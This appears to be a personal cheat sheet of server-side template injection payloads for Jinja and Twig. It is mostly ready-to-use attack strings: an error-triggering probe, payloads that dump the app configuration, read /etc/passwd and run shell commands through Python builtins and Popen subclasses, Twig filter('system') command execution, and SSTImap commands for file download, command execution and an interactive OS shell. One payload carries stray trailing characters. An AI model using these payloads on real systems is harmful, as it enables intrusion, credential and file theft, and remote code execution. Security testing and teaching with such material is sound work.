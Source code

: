 SSTI Injection tests  (Should result in an error):
```
${{<%[%'"}}%\.
```


![](ssti_test_flow.png)
77777 = Jinja
49 = Twig


### Jinja Template Engine
*Common in Flask and Django*

#### Payloads
Applicaiton configruration grabbing
```Jinja
{{ config.items() }}
```

Dump source code built-on functions
```Jinja
{{ self.__init__.__globals__.__builtins__ }}
```

LFI payload
```Jinja
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}__()}} 
```

Remote code execution using python
```Jinja
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

Enumerate available classes. May need to change the [1] value in intruder to find right index.
```Jinja
{{''.__class__.mro()[1].__subclasses__()}} 
```

To run the subclass RCE. Popen is a good class to use.
```Jinja
{{''.__class__.__mro__[1].__subclasses__()[396]('id', shell=True, stdout=-1).communicate()}}
```


### TWIG Template Engine
*Twig is a template engine for PHP* 

Limited information about itself
```Twig
{{ _self }}
```

LFI

```Twig
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```

```Twig
{{['cat${IFS}/flag.txt']|filter('system')}}
```


RCE
```Twig
{{ ['id'] | filter('system') }}
```

### Tools

#### SSTImap
```txt
# Popular ssti scanning tool.
https://github.com/vladko312/SSTImap

pip3 install -r requirements.txt
python3 sstimap.py 


# Identify SSTI vulnerability and Template Engine
python3 sstimap.py -u http://172.17.0.2/index.php?name=test

# Download remote file to local machine with -D
python3 sstimap.py -u http://172.17.0.2/index.php?name=test -D '/etc/passwd' './passwd'


# Execute system command with -S
python3 sstimap.py -u http://172.17.0.2/index.php?name=test -S id

# Interactive shell
python3 sstimap.py -u http://172.17.0.2/index.php?name=test --os-shell

```